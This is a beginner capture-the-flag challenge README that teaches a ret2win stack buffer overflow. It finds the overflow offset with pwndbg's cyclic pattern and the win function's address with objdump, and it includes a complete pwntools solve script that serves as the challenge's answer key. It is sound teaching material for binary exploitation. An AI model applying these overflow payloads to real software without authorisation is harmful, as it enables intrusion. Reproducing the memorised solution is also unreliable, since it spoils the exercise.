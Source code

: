 # Challenge Name
baby_R2W

## Learning Objective
Extended from BOF. Learn to find and rewrite return address to another function

## Description 
We want to win! But... how to win?

## Difficulty:
Guided (easy)

## Guide
In the code, you can see that `win` function is never called. We want to call this function.

To perform ret2win, we need to overwrite the return address from `main` to `win` after `vuln` function finishes running.

#### What we need to do:
1. Find the exact offset before it overflows
2. Find return address of `win` address

#### To find the offset needed:
1. use `cyclic 100` in pwndbg (this generates the de bruijin sequence)
2. `break main` and run the program (C)
3. you should see that the `RSP` pointer contains `faaaaaaa` and beyond. We just need the first 8 bytes because that is where the return address.

```shell
pwndbg> cyclic -l faaaaaaa
Finding cyclic pattern of 8 bytes: b'faaaaaaa' (hex: 0x6661616161616161)
Found at offset 40
```

#### To find the win address:
```shell
$> objdump -d baby_R2W_bin | grep win
0000000000401136 <win>:
```

Now we can put our solve script together!

#### Final Solution
```python
from pwn import *

# setup process
p = process("./baby_R2W_bin")
context.binary = "./baby_R2W_bin"

# address of win function
win = p64(0x401136)

# payload 
payload = b'A' * 40
payload += win

# send payload
p.sendline(payload)
p.interactive()
```

## Solution
Refer to solve.py

## Hints
1. https://ir0nstone.gitbook.io/notes/binexp/stack/ret2win



## Attached Files
baby_R2W.c
baby_R2W_bin

## Resources
https://ir0nstone.gitbook.io/notes/binexp/stack/ret2win

## Flag
TBD